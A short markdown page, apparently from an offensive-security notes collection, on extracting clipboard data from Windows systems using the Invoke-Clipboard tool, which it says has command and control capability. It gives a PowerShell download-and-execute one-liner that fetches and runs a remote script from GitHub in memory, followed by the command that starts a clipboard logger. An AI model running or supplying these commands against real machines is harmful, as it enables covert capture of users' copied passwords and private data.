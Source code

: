 # Extracting Clipboard data Windows

* script to get clipboard data from a windows system
  * also has command and control capability
    * [https://github.com/inguardians/Invoke-Clipboard](https://github.com/inguardians/Invoke-Clipboard)

```powershell-session
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/inguardians/Invoke-Clipboard/master/Invoke-Clipboard.ps1')
```

```powershell-session
Invoke-ClipboardLogger
```
